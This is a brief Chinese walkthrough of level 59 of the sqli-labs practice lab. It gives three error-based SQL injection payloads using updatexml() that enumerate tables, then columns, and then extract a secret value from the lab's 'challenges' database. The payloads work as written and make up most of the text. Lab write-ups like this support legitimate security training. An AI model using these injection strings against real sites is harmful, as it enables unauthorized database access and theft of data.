




## sql-labs第五十九关

五十九关和五十八关一样使用报错注入，id是整数型。

### 爆库

~~~ cmd
?id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
~~~

### 爆列

~~~ cmd
?id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='challenges' and table_name='V9J0SQ759Q'),0x7e),1)--+
~~~

### 爆数据

~~~ cmd
?id=1 and updatexml(1,concat(0x7e,(select group_concat(secret_FKSV) from V9J0SQ759Q),0x7e),1)--+
~~~

至此成功